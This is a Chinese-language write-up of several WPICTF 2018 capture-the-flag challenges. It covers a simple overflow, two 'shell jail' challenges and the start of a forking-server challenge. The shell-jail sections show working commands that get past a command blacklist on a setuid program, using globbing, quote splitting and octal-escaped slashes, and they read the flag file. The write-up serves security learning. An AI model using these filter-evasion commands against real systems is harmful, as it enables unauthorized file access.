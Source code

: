 # WPICTF 2018 - Notes

## ezpz
直接丟到 ida pro 看程式碼可以知道

他一開始會要我們輸入一串密碼，然後和 "EZPZPASSWORD" 這個環境變數比對值

如果對的話，就呼叫 correct_pw() 這個函數來把 "EZPZPASSWORD" 的值印出來

而程式在一執行就會印出 correct_pw() 這個函數地址給我們，所以直接

overflow 後跳 correct_pw() 即可


## Shell-JAIL-1
> Description:
> 
> Download the login private key, then run:
> 
> ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz
> 
> redundant servers on 31338 and 31339

題目給了一個 private key ，然後用此連上 server 


底下有三個檔案: access , access.c , flag.txt
```
28369edadf5f:/home/pc_owner$ ls -al
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10880 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1005 Apr 13 04:50 access.c
-r--r-----    1 pc_owner pc_owner        23 Apr 13 04:50 flag.txt
```

那可以看到 access 有 setuid，然後看一下 access.c 可以知道

他會把我們的輸入，餵給 system 來執行，只要裡面的指令不在黑名單即可

```
28369edadf5f:/home/pc_owner$ ./access cat "fl?g.t?t"
wpi{MaNY_WayS_T0_r3Ad}
===
28369edadf5f:/home/pc_owner$ ./access "cat fla'g'.'t'xt"
wpi{MaNY_WayS_T0_r3Ad}

```

## Shell-JAIL-2
> Description:
> 
> Download the login private key, then run:
> 
> ssh -p 31337 -i login shjail@shelljail2.wpictf.xyz


一樣有三個檔案
```
54cd9d6b47ef:/home/pc_owner$ ls -al
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10912 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1030 Apr 13 05:39 access.c
-r--r-----    1 pc_owner pc_owner        28 Apr 13 05:39 flag.txt
```

這題和第一題唯一的不同處在於其將 PATH 這個環境變數清空

所以直接用指令會不行，如
```
54cd9d6b47ef:/home/pc_owner$ ./access id
sh: id: not found
54cd9d6b47ef:/home/pc_owner$ ./access ls
sh: ls: not found
```

可以自己寫 code 驗證一下:
```
# a.c
#include <stdlib.h>
#include <stdio.h>

int main()
{
  setenv("PATH", "", 1);
  char *pathvar = getenv("PATH");
  printf("pathvar: %s\n", pathvar);
  return 0;
}
===
# gcc a.c -o a
# ./a
pathvar:

可以看到顯示為空，一般如果沒清空的話，大概會顯示如下:
pathvar: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

在沒有環境變數的情況下，如你要使用 cat ，需要下 /bin/cat

但我們還是可以使用 $, \, ' ，所以可以把 / 換成 $'\57'

57 是 ord('/') 的八進制，也是可以改成十六進制，也就是 $'\x2f' 是一樣的

這樣就可以用第一題的 payload 了
```
54cd9d6b47ef:/home/pc_owner$ ./access "$'\57'bin$'\57'cat $'\57'hom'e'$'\57'pc_ow'n'er$'\57'fla'g'.tx't'"
wpi{p0s1x_sh3Lls_ar3_w13rD}

```

另解:
```
54cd9d6b47ef:/home/pc_owner$ ./access pwd
/home/pc_owner
```
我們可以使用 . (source)
```
54cd9d6b47ef:/home/pc_owner$ ./access . "fla?.?xt"
sh: flag.txt: line 1: wpi{p0s1x_sh3Lls_ar3_w13rD}: not found
```

## Forker.1
> Description:
>
> nc forker1.wpictf.xyz 31337
> 
> redundant servers on 31338 and 31339
> 
> Hint: ASLR is disabled on the server

這題保護全部沒開，根據題目提示也知道沒有 aslr

丟到 ida pro 看一下程式碼，可以知道會在本地開 31337 port 

然後密碼是 INTERNET_FUNNY_MUNNY

整個簡單使用過程如下:

```
## Server Side
$ ./a 
## 開 server

===

## Client Side
$ nc localhost 31337 ## connect to server 
Please enter the correct password to get my secret ltc info
Password:INTERNET_FUNNY_MUNNY
You got the password right!
My litecoin address is LNpECGn9in6BGC8eaK87QawjzAXaWMht2b
```
